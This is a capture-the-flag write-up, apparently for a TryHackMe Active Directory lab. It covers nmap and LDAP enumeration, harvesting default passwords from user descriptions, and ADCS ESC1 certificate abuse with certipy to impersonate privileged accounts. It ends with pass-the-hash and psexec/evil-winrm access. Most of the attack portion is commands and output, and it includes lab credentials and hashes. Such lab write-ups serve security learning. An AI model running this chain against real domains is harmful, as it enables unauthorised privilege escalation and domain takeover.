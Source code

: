 
# Enumeration
**Target** - `10.10.161.194`
Enumerate Open Ports:
`nmap -sV -sC 10.10.161.194`

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-23 08:53 EDT
Nmap scan report for 10.10.161.194
Host is up (0.020s latency).
Not shown: 986 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-23 12:53:31Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-23T12:54:18+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:labyrinth.thm.local
| Not valid before: 2024-06-24T14:40:22
|_Not valid after:  2025-06-24T14:40:22
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2025-05-23T12:54:18+00:00; -1s from scanner time.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA
| Not valid before: 2023-05-12T07:26:00
|_Not valid after:  2028-05-12T07:35:59
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
|_ssl-date: 2025-05-23T12:54:18+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:labyrinth.thm.local
| Not valid before: 2024-06-24T14:40:22
|_Not valid after:  2025-06-24T14:40:22
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-23T12:54:18+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:labyrinth.thm.local
| Not valid before: 2024-06-24T14:40:22
|_Not valid after:  2025-06-24T14:40:22
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:labyrinth.thm.local
| Not valid before: 2024-06-24T14:40:22
|_Not valid after:  2025-06-24T14:40:22
|_ssl-date: 2025-05-23T12:54:18+00:00; -1s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-05-23T12:54:18+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Not valid before: 2025-05-22T12:50:41
|_Not valid after:  2025-11-21T12:50:41
Service Info: Host: LABYRINTH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time: 
|   date: 2025-05-23T12:54:12
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.47 seconds
```

Interesting finds
`88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-23 12:53:31Z)`

```
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-05-23T12:54:18+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Not valid before: 2025-05-22T12:50:41
|_Not valid after:  2025-11-21T12:50:41
Service Info: Host: LABYRINTH; OS: Windows; CPE: cpe:/o:microsoft:windows
```


**LDAP Enumeration**
```
ldapsearch -H ldap://10.10.161.194 -x -b DC=thm,DC=local "(objectClass=person)" | awk '
  /^dn:/ {show=0} 
  /^sAMAccountName:/ {user=$0; show++} 
  /^description:/ {desc=$0; show++} 
  show==2 {print user; print desc; print ""; show=0}
'
```

Interesting Finds:
```
sAMAccountName: IVY_WILLIS
description: Please change it: CHANGEME2023!

sAMAccountName: SUSANNA_MCKNIGHT
description: Please change it: CHANGEME2023!
```


# Exploitation

# **LDAP**

With the finding of 
```
sAMAccountName: IVY_WILLIS
description: Please change it: CHANGEME2023!

sAMAccountName: SUSANNA_MCKNIGHT
description: Please change it: CHANGEME2023!
```
I will try to connect to these via RDP. I'll be using remmina.

`IVY_WILLIS` - Didn't Work

`SUSANNA_MCKNIGHT` - Worked!
- We're in!
![Pasted image 20250523144732](https://github.com/user-attachments/assets/9fe28efa-c9fe-4643-941c-c4c856a28ee4)

Now I can obtain the user flag
![Pasted image 20250523144703](https://github.com/user-attachments/assets/856d85ee-90e8-4d0d-be8c-b5d73ae8ee9e)


With the user credentials, I'll run a #ldapdomaindump 
```
python3 '/home/kali/Desktop/ldapdomaindump-0.10.0/ldapdomaindump.py' ldaps://10.10.161.194 -u "thm.local\SUSANNA_MCKNIGHT" -p CHANGEME2023! -o ./mytmp
```

This will generate:
![Pasted image 20250523145427](https://github.com/user-attachments/assets/7989ebb5-dc04-4ccc-9884-1d4ec3121342)

Let's take a look for some useful information:
![Pasted image 20250523145617](https://github.com/user-attachments/assets/e2a865b8-2900-41df-a2ec-835bdea7364a)


You can also run `Get-ADGroupMember -Identity "Domain Admins" -Recursive` in powershell to get list of users who are domain administrators

#### Active Directory Certificate Service
- ADCS uses LDAP to publish certificate-related objects

We're enumerating ADCS because there're signs of a certificate authority present from out NMAP scan on port 443 (HTTPSd)
` ssl-cert: Subject: commonName=thm-LABYRINTH-CA`
**List All PKI Enrollment Servers**
`nxc ldap 10.10.161.194 -u SUSANNA_MCKNIGHT -p CHANGEME2023! -M adcs`

```
LDAP        10.10.161.194   389    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 (name:LABYRINTH) (domain:thm.local)
LDAP        10.10.161.194   389    LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:CHANGEME2023!
ADCS        10.10.161.194   389    LABYRINTH        [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.161.194   389    LABYRINTH        Found PKI Enrollment Server: labyrinth.thm.local                                                      
ADCS        10.10.161.194   389    LABYRINTH        Found CN: thm-LABYRINTH-CA                                                                            
ADCS        10.10.161.194   389    LABYRINTH        Found PKI Enrollment WebService: https://labyrinth.thm.local/thm-LABYRINTH-CA_CES_Certificate/service.svc/CES
```

Let's enumerate and exploit ADCS using certipy-ad.
- This tool helps find misconfigurations and exploits common escalation paths
`certipy-ad find -u SUSANNA_MCKNIGHT -p 'CHANGEME2023!' -dc-ip 10.10.161.194 -vulnerable -enabled`
```
[*] Successfully retrieved CA configuration for 'thm-LABYRINTH-CA'
[*] Checking web enrollment for CA 'thm-LABYRINTH-CA' @ 'labyrinth.thm.local'
[*] Saving text output to '20250523102122_Certipy.txt'
[*] Wrote text output to '20250523102122_Certipy.txt'
[*] Saving JSON output to '20250523102122_Certipy.json'
[*] Wrote JSON output to '20250523102122_Certipy.json'

```
![Pasted image 20250523152214](https://github.com/user-attachments/assets/60d8906f-7c5e-4744-9831-dda8d5d046cc)


We have ESC1 vulnerability present.
Looking up ESC1 provides us with:
![Pasted image 20250523161238](https://github.com/user-attachments/assets/7811ccf5-e1bf-4698-b1bc-901caa5fac87)

`certipy-ad req -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!' -target thm.local -upn administrator@thm.local -ca thm-LABYRINTH -template ServerAuth`

Let's request that certificate!
```
certipy req -u 'SUSANNA_MCKNIGHT@thm.local' -p 'CHANGEME2023!' -dc-ip 10.10.161.194 -target labyrinth.thm.local -ca 'thm-LABYRINTH-CA' -template 'ServerAuth' -upn 'administrator@thm.local'
```

- `-upn` - user principle name
- `-ca` - certificate authority
![Pasted image 20250523152711](https://github.com/user-attachments/assets/b9affa21-27d8-40de-80e8-7c4e732addad)

- `-template`
![Pasted image 20250523152746](https://github.com/user-attachments/assets/0ddeb0f6-b602-44bf-9b9d-5ef8f546c3f4)

![Pasted image 20250523162438](https://github.com/user-attachments/assets/2ac08372-08f0-4967-88a6-f53bf2d90d81)

Success!

Let's try to crack the cert and key:
`certipy auth -pfx administrator.pfx -username Administrator -domain thm.local -dc-ip 10.10.161.194`

Nice!
![Pasted image 20250523162643](https://github.com/user-attachments/assets/2cbf8086-d3d4-4997-9de5-b2a959edfd38)

Now we have the ==NTLM hash== for the administrator account! Lets do pass the hash with ==wmiexec.py==
`evil-winrm -i 10.10.161.194 -u administrator -H 07d677a6cf40925beb80ad6428752322` (Only use NT for PTH attacks)

I couldn't connect with the administrator account, let's do this for `bradley_ortiz`

`certipy req -u 'SUSANNA_MCKNIGHT@thm.local' -p 'CHANGEME2023!' -dc-ip 10.10.161.194 -target labyrinth.thm.local -ca 'thm-LABYRINTH-CA' -template 'ServerAuth' -upn 'bradley_ortiz@thm.local'
`
![Pasted image 20250523163321](https://github.com/user-attachments/assets/df4103ac-a2b0-46cf-a526-3e93d4d2e966)


`certipy auth -pfx bradley_ortiz.pfx -username bradley_ortiz -domain thm.local -dc-ip 10.10.161.194`

I will add `thm.local` to my `/etc/hosts` and also run `export KRB5CCNAME=~/Desktop/bradley_ortiz.ccache`

(IP changed because I had to reset the box)
`psexec.py -k -no-pass -dc-ip 10.10.176.105 -target-ip 10.10.176.105 thm.local/bradley_ortiz@labyrinth.thm.local`
We could've also ran `psexec.py -hashes LMHASH:NTHASH example.local/username@target`
So it would've been:
`psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:16ec31963c93240962b7e60fd97b495d thm.local/bradley_ortiz@10.10.176.105
We're in!
![Pasted image 20250523170836](https://github.com/user-attachments/assets/62a02773-5e53-4218-a935-4d17fefe874b)


![Pasted image 20250523171144](https://github.com/user-attachments/assets/9f1cbaf1-af46-435d-b3de-20f4e452fd53)



